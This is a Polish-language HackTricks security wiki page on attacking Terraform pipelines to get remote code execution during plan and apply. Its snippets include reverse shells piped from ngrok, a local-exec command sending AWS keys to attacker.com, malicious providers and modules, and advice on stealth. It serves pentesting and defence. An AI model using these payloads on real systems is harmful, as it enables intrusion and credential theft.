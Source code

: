# Bezpieczeństwo Terraform

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Podstawowe informacje

[Z dokumentacji: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform to narzędzie **infrastruktury jako kod**, które pozwala definiować zarówno **zasoby w chmurze, jak i lokalne** w czytelnych dla człowieka plikach konfiguracyjnych, które można wersjonować, ponownie używać i udostępniać. Następnie można użyć spójnego procesu w celu wdrożenia i zarządzania całym środowiskiem infrastruktury. Terraform może zarządzać komponentami na niskim poziomie, takimi jak obliczenia, przechowywanie i zasoby sieciowe, a także komponentami na wysokim poziomie, takimi jak wpisy DNS i funkcje SaaS.

### Jak działa Terraform?

Terraform tworzy i zarządza zasobami na platformach chmurowych i innych usługach za pomocą ich interfejsów programowania aplikacji (API). Dostawcy umożliwiają Terraformowi współpracę z praktycznie dowolną platformą lub usługą z dostępnym interfejsem API.

![](<../.gitbook/assets/image (33).png>)

HashiCorp i społeczność Terraformu napisali już **ponad 1700 dostawców**, aby zarządzać tysiącami różnych typów zasobów i usług, a ta liczba nadal rośnie. Wszystkie publicznie dostępne dostawcy można znaleźć w [Terraform Registry](https://registry.terraform.io/), w tym Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog i wiele innych.

Podstawowy proces pracy z Terraform składa się z trzech etapów:

* **Napisz:** Definiujesz zasoby, które mogą obejmować wiele dostawców i usług chmurowych. Na przykład możesz utworzyć konfigurację do wdrożenia aplikacji na maszynach wirtualnych w sieci Virtual Private Cloud (VPC) z grupami zabezpieczeń i równoważnikiem obciążenia.
* **Plan:** Terraform tworzy plan wykonania, opisujący infrastrukturę, którą utworzy, zaktualizuje lub zniszczy na podstawie istniejącej infrastruktury i twojej konfiguracji.
* **Zastosuj:** Po zatwierdzeniu Terraform wykonuje zaproponowane operacje w odpowiedniej kolejności, szanując zależności między zasobami. Na przykład, jeśli zaktualizujesz właściwości VPC i zmienisz liczbę maszyn wirtualnych w tym VPC, Terraform najpierw odtworzy VPC, a następnie skaluje maszyny wirtualne.

![](<../.gitbook/assets/image (81).png>)

## Laboratorium Terraform

Po prostu zainstaluj Terraform na swoim komputerze.

Tutaj masz [przewodnik](https://learn.hashicorp.com/tutorials/terraform/install-cli), a tutaj masz [najlepszy sposób na pobranie Terraform](https://www.terraform.io/downloads).

## RCE w Terraform

Terraform **nie ma strony internetowej ani usługi sieciowej**, której można by wyliczyć, dlatego jedynym sposobem na skompromitowanie Terraformu jest **możliwość dodawania/modyfikowania plików konfiguracyjnych Terraform**.

Jednak Terraform to **bardzo wrażliwy komponent** do skompromitowania, ponieważ będzie miał **uprzywilejowany dostęp** do różnych lokalizacji, aby działać poprawnie.

Głównym sposobem, aby atakujący mógł skompromitować system, na którym działa Terraform, jest **skompromitowanie repozytorium przechowującego konfiguracje Terraform**, ponieważ w pewnym momencie zostaną one **zinterpretowane**.

Obecnie istnieją rozwiązania, które **automatycznie wykonują terraform plan/apply po utworzeniu PR**, takie jak **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Jeśli uda ci się skompromitować plik Terraform, istnieje wiele sposobów, aby wykonać RCE, gdy ktoś uruchamia `terraform plan` lub `terraform apply`.

### Terraform plan

Terraform plan to **najczęściej używane polecenie** w Terraformie, a programiści/rozwiązania korzystające z Terraformu często je wywołują, dlatego **najłatwiejszym sposobem na uzyskanie RCE** jest upewnienie się, że zatrutesz plik konfiguracyjny Terraform, który wykona dowolne polecenia w `terraform plan`.

#### Użycie dostawcy zewnętrznego

Terraform oferuje dostawcę [`external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs), który umożliwia współpracę między Terraformem a programami zewnętrznymi. Możesz użyć źródła danych `external`, aby uruchomić dowolny kod podczas `plan`.

Wstrzyknięcie do pliku konfiguracyjnego Terraform czegoś takiego spowoduje wykonanie powłoki rev przy wykonywaniu `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Używanie niestandardowego dostawcy

Atakujący mógłby wysłać [niestandardowego dostawcę](https://learn.hashicorp.com/tutorials/terraform/provider-setup) do [Rejestru Terraform](https://registry.terraform.io/) a następnie dodać go do kodu Terraform w gałęzi funkcjonalności ([przykład stąd](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Dostawca jest pobierany w `init` i uruchomi złośliwy kod podczas wykonywania `plan`

Przykład można znaleźć pod adresem [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Użycie zewnętrznego odwołania

Obie wymienione opcje są przydatne, ale niezbyt dyskretne (druga jest bardziej dyskretna, ale bardziej skomplikowana niż pierwsza). Możesz przeprowadzić ten atak nawet w **bardziej dyskretny sposób**, postępując zgodnie z tymi sugestiami:

* Zamiast dodawać rev shell bezpośrednio do pliku terraform, możesz **załadować zewnętrzny zasób**, który zawiera rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Kod rev shell można znaleźć w [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* W zewnętrznym zasobie użyj funkcji **ref**, aby ukryć **kod rev shell Terraformu w gałęzi** wewnątrz repozytorium, na przykład: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply zostanie wykonane, aby zastosować wszystkie zmiany, można go również wykorzystać do uzyskania RCE poprzez wstrzyknięcie **złośliwego pliku Terraformu z** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Wystarczy upewnić się, że pewien ładunek, na przykład poniższe, znajduje się w pliku `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Wykonaj **sugestie z poprzedniej techniki**, aby przeprowadzić ten atak w **bardziej dyskretny sposób, korzystając z zewnętrznych odwołań**.

## Wycieki sekretów

Możesz uzyskać **wycieki tajnych wartości używanych przez terraform**, uruchamiając `terraform apply` i dodając do pliku terraform coś takiego:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Narzędzia audytowe

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec wykorzystuje statyczną analizę kodu terraformu do wykrywania potencjalnych błędów konfiguracji.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan to statyczny analizator kodu dla infrastruktury jako kodu.

## Odwołania

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

